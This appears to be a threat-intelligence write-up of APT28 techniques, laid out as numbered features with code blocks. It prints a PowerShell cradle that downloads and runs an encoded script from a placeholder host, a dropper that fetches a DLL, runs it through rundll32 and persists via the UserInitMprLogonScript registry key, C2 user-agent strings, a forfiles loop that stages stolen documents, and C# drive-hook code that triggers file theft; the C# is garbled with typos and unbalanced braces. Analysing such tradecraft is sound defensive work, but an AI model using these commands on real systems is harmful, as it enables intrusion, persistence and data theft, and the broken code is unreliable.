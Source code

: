 # APT28

## Features

1. When using DDE to make Microsoft Word phishing documents, execute commands through hidden fields.

```bash
C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://Url/config.txt');
//Running PowerShell does not load configuration files, single-thread startup, does not display interactive prompts to victims and hides windows
powershell -enc $e #.EXE  
//Use the -enc option to run Base64 encoded scripts
```

This command will download a text file named config.txt from the Url address, and then call the command in the text file to execute. The content of the text file is Base64 encoded and can be decrypted using Base64.

```bash
$W=New-Object System.Net.WebClient;
$p=($Env:ALLUSERSPROFILE+”\vms.dll”);  
//Use user profile location
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$W.DownloadFile(“http://Url/media/resource/vms.dll “,$p);  
//Specify download address and download path
if (Test-Path $p){
$rd_p=$Env:SYSTEMROOT+”\System32\rundll32.exe”;  
//Run the dll file using rundll32.exe
$p_a=$p+”,#1″;
$pr=Start-Process $rd_p -ArgumentList $p_a;
//Start the process and use the parameter as variable: $p_a;
$p_bat=($Env:ALLUSERSPROFILE+”\vms.bat”);
//Create vms.bat file
$text=’set inst_pck = “%ALLUSERSPROFILE%\vms.dll”‘+”`r`n”+’if NOT exist %inst_pck % (exit)’+”`r`n”+’start rundll32.exe %inst_pck %,#1’
[io.File]::WriteAllText($p_bat,$text)
New-Item -Path ‘HKCU:\Environment’ -Force | Out-Null;
//Write the contents of vms.bat file
New-ItemProperty -Path ‘HKCU:\Environment’ -Name ‘UserInitMprLogonScript’ -Value “$p_bat” -PropertyType String -Force | Out-Null;
//Allow scripts to start automatically using the UserInitMprLogonScript registry key
}
```

2. The organization's command controller has used hard-coded user agent requests.

```bash
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.04506.30; .NET CLR 3.0.04506.648; InfoPath.1)

Mozilla/5.0 (Windows NT 6.1; WOW64) WinHttp/1.6.3.8 (WinHTTP/5.1) like Gecko

Mozilla v5.1 (Windows NT 6.1; rv:6.0.1) Gecko/20100101 Firefox/6.0.1
```

3. When stealing files, the Forfile batch command will be used to stage files.

```bash
for %%G in (.pdf, .xls, .xlsx, .doc, .docx) do (
   forfiles /P F:[REDACTED] /m *%%G /s /d +01.05.2015 /c "cmd /c copy @path
C:ProgramData[REDACTED]d@file" )
```

4. The organization's malware will install an application-defined Windows hook, which is used to obtain the Windows message of when to connect to the network drive. After adding the network drive, the hook will call the file stealing function.

```C
protected override void WndProc(ref Nessage message)  //Define callback function pointer
{
    base.WndProc(ref message);
    if (message.Msg != 537 || message.LParam == IntPtr.Zero)
    {
	return;
    }
Form1.DEV_BROADCAST_VOLUME dEV_BROADCAST_VOLUNE = (Form1.DEV_BROADCAST_VOLUNE)
//Contains information about logical volumes
    Marshal.PtrToStructure(message.LParam，typeof(Formi.DEV_BROADCAST_VOLUME));
    if (dEV_BROADCAST_vOLUME.dbcv_devicetype == 2)
    {
	int num = message.wParam.ToInt32();
	if (num != 32768)
	{
	    if (num != 32772)
	    {
		return;
	    }
	}
	else
	{
	    this.Driver = this.ToDriveName(dEv_BROADCAST_VOLUME.dbcv_unitmask);
        //Specify drive name
	    this.RecordToFile();
	}
}
```
